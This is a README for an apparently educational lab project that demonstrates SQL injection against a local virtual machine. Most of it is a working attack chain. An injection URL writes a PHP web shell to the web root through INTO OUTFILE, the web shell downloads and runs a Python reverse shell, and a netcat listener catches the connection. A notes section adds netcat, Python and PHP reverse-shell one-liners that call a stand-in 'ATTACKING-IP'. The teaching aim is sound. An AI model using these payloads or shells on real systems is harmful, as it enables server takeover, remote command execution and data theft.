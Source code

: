 SQL INJECTION ATTACK EXAMPLE
============================

This is a small project to show how easy it can be to exploit SQL injection and how dangerous it can be.

Setup Instructions
----------------------------

In order to setup locally, you will need Virtualbox, Vagrant and Ansible installed on your work machine.

```
// Clone the repository to your work machine.
# git clone git@github.com:doublehops/sql-injection-attack-example.git

// Change into the new directory download and run the virtual machine with:
# vagrant up

// Ensure you can ssh into the virtual machine:
# ssh vagrant@192.168.30.99 -i .vagrant/machines/default/virtualbox/private_key

// Use Ansible to provision (install the webserver, PHP, MariaDB/MYSQL) the box with the following:
# dev/provision.sh local_dev

// Import database schema and data into database:
# dev/ssh-import-database.sh

// Load the webpage in your browser to check all is well: http://192.168.30.99
```

Play Around with SQL Injection
------------------------------

I have added an example of how to exploit an SQL Injection vulnerability by changing the passwords of all users in the user table.
<a href="sql-injection-play.php">SQL Injection Play</a>. You need to reload the page to see the results as the select query is executed before the update request.


Gain Shell Access to Webserver with the Help of SQL Injection
-------------------------------------------

Inject SQL that will create a PHP script that will run passed commads:
http://192.168.30.99/sql-injection/outfile.php?username=d%27;select%20%22%3C?php%20system($_GET[%27cmd%27]);%22%20into%20outfile%20%22/var/www/web/images/cmd.php%22;  

__PYTHON BACKDOOR__

Download Python reverse shell  
http://192.168.30.99/images/cmd.php?cmd=wget%20http://192.168.30.99/scripts/reverse-shell.py -O /tmp/reverse-shell.py

Setup the waiting prompt on your host machine - Netcat must be installed:  
`nc -nlvp 4444`

Run new Python reverse shell.  
http://192.168.30.99/images/cmd.php?cmd=/tmp/reverse-shell.py

The terminal on the host machine waiting for connection should be connected now. Try typing `ls -l /var/www/web` to see the files listed.



NOTES
----------

Setup host machine for incoming connections:  
`nc -nvlp 4444`

__Run reverse shell command on foreign machine:__

Netcat reverse shell:  
`nc.traditional -e /bin/sh <host> 4444`

Python reverse shell:  
```python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'```

PHP reverse shell:  
`php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'`
